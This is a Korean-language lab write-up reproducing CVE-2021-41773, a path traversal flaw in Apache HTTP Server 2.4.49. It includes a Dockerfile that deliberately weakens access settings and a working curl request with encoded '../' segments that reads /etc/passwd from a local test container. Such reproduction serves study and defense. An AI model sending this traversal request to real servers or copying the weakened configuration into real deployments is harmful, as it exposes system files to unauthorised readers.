 # Apache HTTP Server 2.4.49 경로 탐색 및 원격 코드 실행 취약점 (CVE-2021-41773)

Apache HTTP Server 프로젝트는 UNIX 및 Windows 등 다양한 운영체제를 지원하는 오픈소스 웹 서버를 개발 및 유지하는 프로젝트입니다.

Apache HTTP Server 2.4.49 버전에서는 **경로 정규화(Path Normalization)** 처리 과정의 결함으로 인해, 공격자가 URL 요청을 조작하여 문서 루트(DocumentRoot) 외부의 파일에 접근할 수 있는 **경로 탐색(Path Traversal)** 취약점이 발견되었습니다.

만약 서버가 기본 설정인 `Require all denied` 로 외부 파일 접근을 차단하고 있지 않다면, 이 취약점을 통해 공격자는 서버 파일을 읽을 수 있습니다.

---






## 취약 환경 구축
Dockerfile 작성
```
FROM httpd:2.4.49

RUN sed -i 's/AllowOverride none/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/Require all denied/Require all granted/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/AllowOverride None/AllowOverride All/g' /usr/local/apache2/conf/httpd.conf
```
- AllowOverride none → AllowOverride All  
.htaccess 파일을 통한 설정 재정의를 허용합니다.
- Require all denied → Require all granted  
기본적으로 모든 요청을 거부하는 대신, 모든 요청을 허용하게 변경합니다.
- AllowOverride None → AllowOverride All  
추가적으로 필요한 경로에서도 .htaccess 기반 설정 변경을 허용합니다.
이 설정 변경을 통해 원래 차단되어야 하는 /etc/passwd 같은 파일도 제한 없이 접근 가능하게 됩니다.

아래 명령어를 사용하여 취약한 Apache 서버 환경을 구성할 수 있습니다.

```bash
docker build -t apache-cve-2021-41773 .
```
![](1.png)

```bash
docker run -d -p 8080:80 --name apache-41773 apache-cve-2021-41773
```
![](2.png)


## 취약점 공격 재현 (PoC)
```bash
curl -v http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
/etc/passwd 파일 내용을 성공적으로 읽어올 수 있습니다.
![](3.png)

## 첨
https://github.com/5asever/vulhub/blob/master/apache-cve-2021-41773
